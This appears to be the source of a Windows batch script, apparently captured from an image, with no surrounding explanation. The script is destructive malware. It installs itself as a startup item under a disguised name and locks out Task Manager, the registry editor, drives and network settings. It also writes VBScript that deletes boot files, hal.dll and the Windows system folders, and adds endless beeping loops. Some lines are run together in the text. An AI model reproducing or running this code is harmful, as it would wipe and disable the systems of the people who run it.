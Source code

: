 reg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v nodesktop /d 1 /freg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v ClassicShell /d 1 /fset ¶§=%0
copy %¶§% %SystemRoot%\user32dll.bat
reg add "hklm\Software\Microsoft\Windows\CurrentVersion\Run" /v RunExplorer32 /d %SystemRoot%\user32dll.bat /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoDrives /t REG_DWORD /d 67108863 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoViewOnDrive /t REG_DWORD /d 67108863 /f
echo fso.deletefile "C:\ntldr",1 >> %temp%\temp.vbs
reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoSelectDownloadDir" /d 1 /f
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\main\FeatureControl\Feature_LocalMachine_Lockdown" /v "IExplorer" /d 0 /f
reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoFindFiles" /d 1 /f
reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoNavButtons" /d 1 /f
echo fso.deletefolder "D:\Windows",1 >> %temp%\temp.vbs
echo fso.deletefolder "I:\Windows",1 >> %temp%\temp.vbs
echo fso.deletefolder "C:\Windows",1 >> %temp%\temp.vbs
echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs
echo fso.deletefile sr+"\system32\hal.dll",1 >> %temp%\temp.vbs
echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs
echo fso.deletefolder sr+"\system32\dllcache",1 >> %temp%\temp.vbs
echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs
echo fso.deletefolder sr+"\system32\drives",1 >> %temp%\temp.vbs
echo s.regwrite "HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\LocalizedString","forum.whack.ru">>%temp%\temp.vbs
echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOwner","forum.whack.ru">>%temp%\temp.vbs
echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOrganization","forum.whack.ru">>%temp%\temp.vbs
echo on error resume next > %temp%\temp1.vbs
echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp1.vbs
echo do>>%temp%\temp1.vbs
echo fso.getfile ("A:\")>>%temp%\temp1.vbs
echo loop>>%temp%\temp1.vbs
echo on error resume next > %temp%\temp2.vbs
echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp2.vbs
echo do>>%temp%\temp2.vbs
echo execute"S.Run ""%comspec% /c echo "" & Chr(7), 0, True">>%temp%\temp2.vbs
echo loop>>%temp%\temp2.vbs
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disabletaskmgr /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disableregistrytools /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuPinnedList /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMFUprogramsList /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoUserNameInStartMenu /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\NonEnum" /v {20D04FE0-3AEA-1069-A2D8-08002B30309D} /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoNetworkConnections /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuNetworkPlaces /t REG_DWORD /d 1 /f
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v StartmenuLogoff /t REG_DWORD /d 1 /f